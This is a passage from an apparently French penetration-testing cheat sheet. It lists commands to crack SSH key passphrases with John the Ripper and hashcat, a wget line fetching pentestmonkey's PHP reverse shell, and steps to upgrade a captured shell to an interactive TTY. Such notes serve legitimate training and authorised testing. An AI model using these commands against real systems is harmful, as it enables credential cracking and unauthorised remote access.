 ### John the Ripper (SSH Key Password)

#### Conversion de la clé SSH

```bash
/usr/share/john/ssh2john.py <chemin_vers_ta_clé> > hash_john.txt
```

#### Cracking du hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_john.txt
```

#### Affichage du mot de passe trouvé

```bash
john --show hash_john.txt
```

### Hashcat

```bash
hashcat -a 0 -m <ID-Algo> hash.txt -o cracked.txt /usr/share/wordlists/rockyou.txt
```

## 5. [Reverse Shell](Outils/Reverse Shell.md) / [Bind Shell](Outils/Bind Shell.md)

### Reverse Shell (PHP)

```bash
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
### Amélioration du terminal

#### Transformer en TTY interactif

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Passage en mode raw

```bash
stty raw -echo
```

#### Adaptation du terminal

```bash
export TERM=xterm
export SHELL=/bin/bash
```

### Ressources supplémentaires
